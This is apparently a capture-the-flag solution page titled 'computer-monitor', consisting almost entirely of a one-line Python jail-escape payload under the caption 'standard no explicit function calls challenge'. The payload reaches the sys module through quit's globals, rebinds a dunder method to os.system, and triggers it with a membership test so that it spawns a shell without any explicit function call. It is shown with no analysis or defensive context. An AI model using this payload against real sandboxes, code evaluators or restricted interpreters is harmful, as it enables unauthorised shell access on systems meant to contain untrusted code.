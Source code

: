 # computer-monitor

```
sys=quit.__class__.__init__.__globals__['sys'];quit.__class__.__contains__=sys.modules['os'].system;'sh'in quit
```

standard no explicit function calls challenge

